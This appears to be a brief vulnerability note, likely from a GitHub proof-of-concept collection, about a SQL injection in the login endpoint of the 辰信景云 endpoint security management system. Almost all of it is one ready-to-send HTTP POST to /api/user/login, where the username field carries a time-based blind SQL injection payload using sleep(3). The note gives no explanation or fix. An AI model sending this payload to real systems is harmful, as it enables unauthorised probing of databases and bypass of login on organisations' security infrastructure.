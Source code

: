 # 辰信景云终端安全管理系统 login SQL注入漏洞

    ```
POST /api/user/login

captcha=&password=21232f297a57a5a743894a0e4a801fc3&username=admin'and(select*from(select+sleep(3))a)='
```

